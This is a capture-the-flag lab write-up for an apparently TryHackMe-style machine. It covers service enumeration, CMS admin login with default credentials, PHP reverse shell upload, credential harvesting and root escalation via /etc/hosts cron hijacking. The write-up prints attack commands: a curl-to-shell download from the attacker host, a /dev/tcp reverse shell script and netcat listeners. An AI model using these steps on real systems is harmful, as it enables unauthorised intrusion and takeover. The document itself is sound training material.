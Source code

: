 # How to access the admin panel
Scan the website using nmap:
<pre>nmap -sV VICTIM_IP_ADDRESS </pre>
Nmap reveals that port 85 is open:

![image](https://github.com/user-attachments/assets/d0e4f543-0a32-4e3a-9baf-21c18ce4db59)


Run Gobuster after completing the Nmap scan. The results reveal the /app directory:
<pre>gobuster dir -u "http://VICTIM_IP_ADDRESS:85/" -w /usr/share/wordlists/dirb/small.txt -t 64</pre>
![Bez tytułu](https://github.com/user-attachments/assets/5cf1f095-12b2-4022-abd1-26df6afa62e9)

Click the "Jump" button, which triggers a redirect:

![image](https://github.com/user-attachments/assets/5a8c3552-8589-41f3-8828-bd6d1a132a19)

Further enumeration reveals a database.php file located in /config, which will be useful later:

![image](https://github.com/user-attachments/assets/366199be-a023-4fb6-9a7c-64de12f49556)

At the bottom of the page, there's information indicating that the site uses the Concrete5 CMS:

![image](https://github.com/user-attachments/assets/724469aa-2898-40f5-9a0c-3b57745afaa0)

Clicking the "Log in" button redirects to the login panel, which shows a standard admin login form. The default credentials are:
<pre>Username: admin</pre>
<pre>Password: password</pre>

<br><br>
# How to get a reverse shell
## On the victim machine
Go to System Settings → Files → Allowed File Types. Add php to the list of allowed file types:

![image](https://github.com/user-attachments/assets/9a76b22e-0758-4501-8a17-ca3c46b68cc1)

Create a shell.php file on the attacker's machine: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php   
Upload a PHP reverse shell:

![image](https://github.com/user-attachments/assets/8c92daa3-47ef-423f-96d3-76a197717059)  

A popup window will show the path to the uploaded file:
<pre>http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php</pre>

## On the attacker machine
Start a listener:
<pre>nc -lvnp 4444</pre>

Go back to browser and in new tab go to:
<pre>http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php</pre>

Once the shell is triggered, upgrade the session:
<pre>python3 -c 'import pty; pty.spawn("/bin/bash")'</pre>  
![image](https://github.com/user-attachments/assets/9d5bac6d-1e00-4ef2-96ed-1b3a7aa1d1cc)

<br><br>
# Get User Credentials
Go back to the database.php file found during gobuster enumeration. It contains credentials for the toad user:

![image](https://github.com/user-attachments/assets/c177072f-b9d0-45c7-b119-4bcc48774eca)

Switch to that user:
<pre>su toad</pre>  
In the toad home directory, there's no user.txt or root.txt, but we can extract credentials for mario from the environment variables:

![image](https://github.com/user-attachments/assets/f467a7ab-fe55-4fb8-ad63-98154e493d70)  

Use CyberChef to decode the Base64 password. The result: <pre>ikaTeNTANtES</pre>

Now log in as mario. Inside the mario directory, use less to read the user.txt flag:

![image](https://github.com/user-attachments/assets/0834e2fd-2a48-4ec2-a16a-f84c0b150d06)  

Root access is required for the root.txt.
 
<br><br>
# How to get root
We’ll use:
1.	linpeas.sh: http://michalszalkowski.com/security/linpeas/
2.	Documentation: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

## On the attacker machine
Download linpeas.sh:
<pre>wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh chmod +x linpeas.sh</pre>

Start a local HTTP server:
<pre>sudo python3 -m http.server 9000</pre>

## On the victim machine
Download and run linpeas.sh:
<pre>curl <attacker_machine_ip_adress>/linpeas.sh | sh</pre>

During the scan we can see that /etc/hosts is writable.

![image](https://github.com/user-attachments/assets/9ec6d78b-bf12-4972-990f-988be268f138)

After checking all running processes and cron jobs, there is a cron job which executes with root privilege every minute: 
<pre>curl mkingdom.thm:85/app/castle/application/counter.sh</pre>

To redirect mkingdom.thm to the attacker's IP:
<pre>echo "ATTACKER_IP_ADDRESS   mkingdom.thm" >> /etc/hosts</pre>  

However, this alone doesn't work, because cron still resolves to 127.0.1.1:

![image](https://github.com/user-attachments/assets/db84ae46-3c58-4a6a-8c23-40b4bc6fa090)

The workaround is to overwrite the entire file manually:
<pre> cat << EOF > /tmp/hosts_fixed
127.0.0.1       localhost
127.0.0.1       backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

ATTACKER_IP_ADDRESS    mkingdom.thm
EOF
</pre>

Copy custom /tmp/hosts_fixed file and overwrite the system’s /etc/hosts file with it.
<pre>cp /tmp/hosts_fixed /etc/hosts</pre>

As shown below, the cron job is configured to reach the attacker's machine:

![image](https://github.com/user-attachments/assets/466df7d9-9eba-4e64-8704-baf2c15270f8)

## On the attacker machine
Create the folder structure:
<pre>mkdir -p app/castle/application
cd app/castle/application
</pre>

After that create counter.sh:
<pre>cat << EOF > counter.sh
#!/bin/bash
bash -i >& /dev/tcp/<attacker_machine_ip_address>/4444 0>&1
EOF
</pre>

Lastly change permission to executable:
<pre>chmod +x counter.sh</pre>

Full process:

![image](https://github.com/user-attachments/assets/bdcd3fc4-7ebe-40b0-9e55-fc67dca3001b)

In two separate terminals run:
<pre>python3 -m http.server 85</pre>
<pre>nc -lvnp 4444</pre>

Wait for cron to trigger:

![image](https://github.com/user-attachments/assets/f390b7ce-7501-4bf4-b7c8-bccf738083ad)
![image](https://github.com/user-attachments/assets/f734f8b5-5c6b-46cf-a38d-204315b04709)

Know we reverse shell as root:

![image](https://github.com/user-attachments/assets/d09eb426-53c8-4e87-81af-c42d098a7f0c)

Use less to check flag:

![image](https://github.com/user-attachments/assets/e03dee91-a4fe-4886-be92-681dbabda795)